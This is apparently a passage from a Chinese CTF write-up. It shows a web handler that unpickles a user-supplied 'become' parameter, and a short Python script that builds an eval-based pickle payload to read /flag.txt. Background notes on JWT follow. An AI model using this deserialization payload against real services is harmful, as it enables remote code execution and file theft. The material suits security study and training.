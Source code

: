 ```
 become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
```

服务端会对我们传入的become参数进行操作，并且用到pickle这个东西，我们可以利用其进行文件读取，并将flag传回form.html中。
这里摘录下大佬的文章，[Python魔法方法指南](https://pyzh.readthedocs.io/en/latest/python-magic-methods-guide.html)
同时还有关于pickle和reduce实例用法的链接：[在pickle模块的情况下，reduce函数是如何工作的？](https://www.cnpython.com/qa/210937)
![在这里插入图片描述](https://img-blog.csdnimg.cn/791544115aba4b108466e2c96fd25080.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1JBQkNEWEI=,size_16,color_FFFFFF,t_70)

我们运行脚本生成payload

```
import pickle
import urllib.parse
class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt').read()",))
a = pickle.dumps(payload(),protocol=0)  #python3的写法， 使用协议0进行序列化
print(urllib.parse.quote(a))

```

抓包修改become得到flag

![image-20240530164452022](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405301644113.png)



## 知识点

### jwt

 [认识JWT](https://www.cnblogs.com/cjsblog/p/9277677.html)

[JWT伪造工具](https://jwt.io/)

#### 1. JSON Web Token是什么

JSON Web Token (JWT)是一个开放标准(RFC 7519)，它定义了一种紧凑的、自包含的方式，用于作为JSON对象在各方之间安全地传输信息。该信息可以被验证和信任，因为它是数字签名的。

#### 2. 什么时候你应该用JSON Web Tokens

下列场景中使用JSON Web Token是很有用的：

- **Authorization** (授权) : 这是使用JWT的最常见场景。一旦用户登录，后续每个请求都将包含JWT，允许用户访问该令牌允许的路由、服务和资源。单点登录是现在广泛使用的JWT的一个特性，因为它的开销很小，并且可以轻松地跨域使用。
- **Information Exchange** (信息交换) : 对于安全的在各方之间传输信息而言，JSON Web Tokens无疑是一种很好的方式。因为JWTs可以被签名，例如，用公钥/私钥对，你可以确定发送人就是它们所说的那个人。另外，由于签名是使用头和有效负载计算的，您还可以验证内容没有被篡改。

#### 3. JSON Web Token的结构是什么样的

![img](https://images2018.cnblogs.com/blog/874963/201807/874963-20180709124807031-664967381.png)
